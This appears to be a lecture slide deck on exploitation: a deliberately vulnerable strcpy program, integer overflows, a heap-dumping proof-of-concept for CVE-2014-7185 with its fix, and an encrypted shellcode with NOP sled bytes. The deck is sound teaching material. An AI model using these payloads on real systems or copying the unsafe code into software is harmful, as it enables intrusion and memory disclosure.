


class: center, middle

# Advanced Exploitation Techniques

---

# Agenda

1. Classic techniques
2. Buffer Overflow example
3. Integer Overflow example
4. Shellcoding example
5. Protection schemes
6. Bypassing protections

---

# Classic techniques

Classic exploitation techniques are commonly based on:

- **Buffer Overflows**
- **Integer Oveflows**

to find an entry point to modify the normal program execution or to inject
custom shellcode.

---

background-image: url(http://imgur.com/download/lRIxVO8)

---

class: center, middle

## Buffer Overflow

> A buffer overflow occurs when data written to a buffer also
> *corrupts* data values in memory addresses adjacent to the destination
> buffer, due to *insufficient bounds checking*

---

class: center, middle

### Types



---

# Stack-based BoF [theory]



---

# Stack-based BoF [example]

```c
#include <stdio.h>
#include <string.h>

int main(int argc, char const *argv[])
{
  char buffer[4];
  strcpy(buffer, argv[1]);
  printf("%s\n", "I'm a good guy");
  return 0;
}
```

```shellsession
# Compile (32bit, without stack protections)
gcc -m32 -fno-stack-protector -z execstack sbof.c -o sbof
# Works
./sbof deadbeef
# Crashes
strace ./sbof $(python -c "print('A'*64)")
```

*Segmentation Fault: programmer no.1 enemy, hacker no.1 friend :)*

???

## Questions

- What is `strace`?
- Even when it crashes, it prints `I'm a good guy`, why?

---

class: center, middle

## Integer Overflow

> An integer overflow occurs when an arithmetic operation attempts to create
> a numeric value that is *too large* to be represented within the available
> storage space


---

.left-column[
  ### Int Overflow in C
]

.right-column[
  ```c
  #include <limits.h>

  void main() {
    int underflow = INT_MIN - 1;
    int overflow  = INT_MAX + 1;
    printf("%d\n", underflow);
    printf("%d\n", overflow);
  }
  ```
]

---

.left-column[
  ### Int Overflow in C
  ### Expected output
]

.right-column[

  #### Underflow:

  ```c
  -2147483648 - 1 = -2147483649
  ```

  #### Overflow:

  ```c
   2147483647 + 1 = 2147483648
  ```

]

---

.left-column[
  ### Int Overflow in C
  ### Expected output
  ### Actual output
]

.right-column[

  #### In theory:

  *Undefined behaviour*.

  #### In practice:

  - Undeflow:

    ```c
    -2147483648 - 1 =  2147483647
    ```

  - Overflow:

    ```c
     2147483647 + 1 = -2147483648
    ```

]

---

class: center, middle

### Who cares?

.twitch-emote.large[WutFace]

---

### Integer Overflow in the real world

**CVE-2014-7185**

> **Python 2.7** could allow a remote attacker to execute arbitrary code on the system,
> caused by an integer overflow in `bufferobject.c`.
> An attacker could exploit this vulnerability to execute arbitrary code on the system.

*reported Sep 23, 2014*

---

class: center, middle

### It's just an arbitrary code execution

.twitch-emote.large[EleGiggle]

---

### CVE-2014-7185 [Vulnerability]

The vulnerability is in buffer function in `bufferobject.c` file:

```c
static int
get_buf(PyBufferObject *self, void **ptr, Py_ssize_t *size,
    enum buffer_t buffer_type)
{
    if (self->b_base == NULL) {
        # ...
    }
    else {
        # ...
        if ((count = (*proc)(self->b_base, 0, ptr)) < 0)
            return 0;
        # ...
        *(char **)ptr = *(char **)ptr + offset;
        if (self->b_size == Py_END_OF_BUFFER)
            *size = count;
        else
            *size = self->b_size;
        if (offset + *size > count)
            *size = count - offset;
    }
    return 1;
}
```

Used by the built-in function: `buffer(..)`

---

### CVE-2014-7185 [Analysis 1/2]

#### Signature

```python
buffer(object[, offset[, size]])
```

#### Arguments

- **object** (*required*): The object argument must be an object that supports the buffer call interface
  (such as string, unicode, bytearray, mmap.mmap or array.array)
- **offset** (*optional*): Buffer slice offset; if omitted the buffer object will be a slice from the beginning of object
- **size** (*optional*): Length of the slice; if omitted the slice will extend to the end of object

---

### CVE-2014-7185 [Analysis 2/2]

#### Description

> The object argument must be an object that supports the buffer call interface (such as strings, arrays, and buffers).
>
> A *new buffer object will be created* which *references the object argument*.
>
> The buffer object will be a slice from the beginning of object (or from the specified offset).
>
> The slice will extend to the end of object (or *will have a length given by the size argument*).

#### Notes

- Buffer function *allocates memory on heap*.
- The `buffer(..)` function allows direct (read-only) access to an object's byte-oriented data *without needing to copy it first*. That can yield large performance gains when operating on large objects since it does not create a copy of an object when slicing.

---

### CVE-2014-7185 [Exploitation 1/3]

#### What happens if we don't pass arguments?

The created buffer object has the same size of the referenced buffer.

#### What happens if we pass arguments?

- size < referenced buffer's size: no problem, it's just a buffer slice.
- size > referenced buffer's size: the first part (until the overflow) will
  reference the memory area of the provided buffer, the remaining part will
  reference the memory area outside the buffer bounds -> buffer overflow !!

*To prevent this, the developer should make proper bound checks..*

---

### CVE-2014-7185 [Exploitation 2/3]

#### Let's take a look at the bounds check

```c
if (offset + *size > count)
  // ...
```

#### What if `offset + *size` goes in integer overflow ?

It *becomes negative* => *skips the conditional check*

.twitch-emote.large[BrokeBack]

---

### CVE-2014-7185 [Exploitation 3/3]

Exploiting this is ezpz:

```python
import sys
a = bytearray('foobar')
b = buffer(a, sys.maxsize, sys.maxsize)
print b[:8192]
```

In above exploit code, the maximum values in offset and size parameters cause the *integer overflow and allows to dump heap*.

---

### CVE-2014-7185 [bug fix]

```diff
...

diff --git a/Objects/bufferobject.c b/Objects/bufferobject.c
--- a/Objects/bufferobject.c
+++ b/Objects/bufferobject.c
@@ -88,7 +88,7 @@ get_buf(PyBufferObject *self, void **ptr
             *size = count;
         else
             *size = self->b_size;
-        if (offset + *size > count)
+        if (*size > count - offset)
             *size = count - offset;
     }
     return 1;

...
```

---

## Shellcoding [1/2: analysis]

```objdump-c
0:   29 c9                  sub    %ecx,%ecx
2:   74 14                  je     0x18
4:   5e                     pop    %esi
5:   b1 14                  mov    $0x14,%cl
7:   46                     inc    %esi
8:   8b 06                  mov    (%esi),%eax
a:   83 e8 09               sub    $0x9,%eax
d:   34 9f                  xor    $0x9f,%al
f:   32 46 ff               xor    -0x1(%esi),%al
12:  88 06                  mov    %al,(%esi)
14:  e2 f1                  loop   0x7
16:  eb 05                  jmp    0x1d
18:  e8 e7 ff ff ff         call   0x4
1d:  31 70 aa               xor    %esi,-0x56(%eax)
20:  92                     xchg   %eax,%edx
21:  d7                     xlat   %ds:(%ebx)
22:  2d ce af e1 a8         sub    $0xa8e1afce,%eax
27:  cc                     int3
28:  8d a8 e1 db 9d a1      lea    -0x5e62241f(%eax),%ebp
2e:  81                     .byte  0x81
2f:  fe                     (bad)  
30:  ba                     .byte  0xba
31:  db                     .byte  0xdb
```

???

## Initial notes

- What I will say *depends on the architecture*, in this case: `x86`
  - `x86_64` (commonly used in modern PCs) is similar but with small
    differences, e.g. first argument is not pushed into the stack.
  - `arm` (commonly used in smartphones and embedded devices) is a lot
    different.
- If you have doubts, take a look at the Intel Developer Manual

## Introduction

- This is a shellcode (*explain what a shellcode is*)
  - *Code is data*
  - We can *inject code as data*
  - There is no distinction between "normal data" and "code"
    - This is not entirely true, e.g. `W^X` bit, *memory segments*, etc
- This is a particular shellcode

## Initial analysis

- How is flow control (high level view)
- There isn't a shellcode, I don't see `/bin/sh`, wtf???

## Analysis

- `29c9`: Initialize register `ecx` to `0` and (as side effect) set `ZF` to `1`

- `7414`: Jump `0x14 = 20` bytes below
  - `74 cb` -> `JE rel8`: Jump short if equal (`ZF = 1`)
    - `rel8` is a *signed offset* relative to the current `EIP`

- `e8e7ffffff`: Call near to relative offset: `0xffffffe7`
  - The offset is in *two's complement*:
    ```
    (bin)       1111 .... 1111 1110 0111
    (hex)        f   ....  f    e    7
    NOT (bin):  0000 .... 0000 0001 1000 +
    SUM ONE:                           1 =
    (bin)       0000 .... 0000 0001 1001
    (hex):       0   ....  0    1    9   -> 0x19   
    ```
    - It is `0x19` bytes *above*
    - Relative to the *next* address, i.e. `0x405`
    - Computed call address is: `0x405 - 0x19 = 0x3ec`
  - `EIP` is pushed in the stack, so the `ESP` points to the next instruction
    after the `call` instruction

- `3246ff`: Consider the next instruction (the instruction opcode is hold by
  the register `al`)

- `e2f1`: Perform loop
  - `e2 cb` -> `LOOP rel8`: Decrement `count`; jump short if `count != 0`
    - `ECX` is the initial value of the counter
    - Each time the `LOOP` instruction is executed, the count register is
      decremented, then checked for `0`:
      - If `count != 0`: the loop is *terminated* and program execution
        continues with the instruction following the `LOOP` instruction
      - If `count == 0`: a *near jump* is performed to the destination operand
        (considered as a *signed offset* relative to the current `EIP`),
        which is presumably the instruction at the beginning of the loop

## Notes

- To open radare session do:
  - Export shellcode to `_sc` and run: `echo $_sc > bin && r2 -AA bin ; rm bin`

---

## Shellcoding [2/2]

```python
# 1. NOP sledge
"\x90" * 1000 + # <- NOP sledge size is 1000
# 2. Shellcode Decrypter
"\x29\xc9\x74\x14\x5e\xb1" +
"\x14" + # <- shellcode length
"\x46\x8b\x06\x83\xe8" +
"\x09" + # <- ADD key
"\x34" +
"\x9f" + # <- XOR key
"\x32\x46\xff\x88\x06\xe2\xf1\xeb\x05\xe8" +
"\xe7\xff\xff\xff" +
# 3. Crypted Shellcode
"\x31\x70\xaa\x92\xd7\x2d\xce\xaf\xe1\xa8" +
"\xcc\x8d\xa8\xe1\xdb\x9d\xa1\x81\xfe\xba" +
"\xdb"
```

You can try it at: [adv_exp_tec/shellcode.c]()

.footnote[shellcodes database @ [shell-storm.org](http://shell-storm.org)]

---

## Protection schemes

- **Non-Executable Stack** (**NES**): `NX` bit.
- **Randomization**:
  - **Stack Canaries**:
    Place a randomly chosen small integer at program start and check it won't
    be overwritten.
  - **ASLR**

---

## Bypassing protections

We need to bypass NES / ASLR / Stack Canaries..

---

## Bypass NES

- **RTL**: Return to library
- **ROP**: Return-Oriented Programming

---

## Bypass stack canaries

- Biggest flaw: they *only* protect stack

- Works well on Linux
- On Windows they can be usually bypassed with **SEH**
  (**Structured Exception Handler**) techniques

- Cannot prevent:
  - *Heap overflow*
  - *Format string* vulnerabilities
  - *Double free*

- *Weak implementations* (non-random) make the cookie easy to guess
- Even if there are strong implementations, attacks to *reduce system entropy*
  make the cookie easy to guess
